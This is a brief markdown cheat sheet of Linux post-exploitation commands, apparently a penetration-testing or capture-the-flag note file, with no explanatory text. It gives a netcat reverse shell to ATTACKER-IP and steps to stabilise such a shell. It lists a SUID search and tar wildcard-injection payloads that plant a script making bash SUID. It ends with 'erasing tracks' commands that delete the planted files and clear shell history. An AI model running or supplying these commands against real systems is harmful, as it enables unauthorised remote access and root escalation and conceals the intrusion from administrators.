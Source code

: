 ## Reverse Shell Stabilization
```
python3 -c 'import pty;pty.spawn("/bin/bash")'
export TERM=xterm
ctrl + z
stty raw -echo; fg
```
## SUID search
```
find / -type f -perm -u=s 2>/dev/null
```
## Reverse Shell alternative (assuming nc exists)
```
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc ATTACKER-IP ATTACKER-PORT >/tmp/f
```

## Wildcard Injection - exploitation
```
printf '#/!bin/bash\nchmod +s /bin/bash' > shell.sh    OR
echo 'cp /bin/bash /tmp/bash; chmod +s /tmp/bash' > /home/user/shell.sh    

echo "" > "--checkpoint-action=exec=sh shell.sh"
echo "" > --checkpoint=1
```
## Wildcard Injection - erasing tracks
```
rm -- --checkpoint*
rm -- "--checkpoint* "
rm shell.sh

[SESSION ONLY] history -c 
clear ~/.bash_history
```
